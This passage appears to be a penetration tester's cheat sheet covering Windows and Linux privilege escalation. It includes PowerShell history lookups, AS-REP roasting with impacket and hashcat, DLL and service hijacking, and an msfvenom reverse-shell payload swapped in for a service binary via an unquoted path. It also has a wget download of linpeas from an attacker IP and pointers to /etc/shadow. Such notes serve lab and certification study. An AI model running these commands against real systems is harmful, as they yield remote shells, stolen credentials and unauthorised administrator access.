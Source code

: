 2. mimikatz
3. Env
```
[Stackoverflow command history](https://stackoverflow.com/questions/44104043/how-can-i-see-the-command-history-across-all-powershell-sessions-in-windows-serv)
[powershell history file](https://0xdf.gitlab.io/2018/11/08/powershell-history-file.html)
Cd $env:APPDATA\Microsoft\Windows\PowerShell\PSReadLine\
Cat C:\Users\Administrator\AppData\Roaming\Microsoft\Windows\Powershell\PSReadLine\ConsoleHost_history.txt
```

### PE scenarios
1. Potato attack
2. Evil-winrm (with creds)
3. Impacket-psexec (with creds)
4. Replace high privilege exes/dlls (hijack)
5. DLL search order
6. AS-REP Roasting
```
proxychains4 impacket-GetNPUsers -dc-ip <DC ip> -request -outputfile hashes.asreproast domain.com/user (uses user with password to check if any other users do not require kerberos pre auth enabled
use hashcat to crack kerberos hash
```
7. Abusing services and DLL hijack
```
Check winpeas and procmon
sc.exe create NewService binpath= c:\Users\user\Desktop\scheduler.exe
msfvenom sus dll and upload
```
8. Check automated scripts (such as ps1 scripts)
```
Adding revshell.exe command to run in script etc
```
9. Sus files are usually in C:\ or C:\Windows. Sometimes it could be in the local admin or local user Documents or Desktop.
10. Sometimes there is a Windows.old in C:\ and can possibly extract sam and system
11. Unquoted service path
```
For example:
Once winpeas identify,
msfvenom -p windows/x64/shell_reverse_tcp LHOST=IP LPORT=444 -f exe > Service.exe
Net stop Service
copy Service.exe "C:\program files\Service dir\"
Net start Service
```
12. Service with NT authority
```
Get-Service to see list of service
Copy-Item and Rename-Item of shell
net stop server and replace
net start later
```
## Linux
### Enumeration
```
wget http://<attacker IP>:80/linpeas.sh
chmod +x linpeas.sh
./linpeas.sh
history
sudo -l
./pspy64
```
### Credential hunt
1. /etc/passwd + /etc/shadow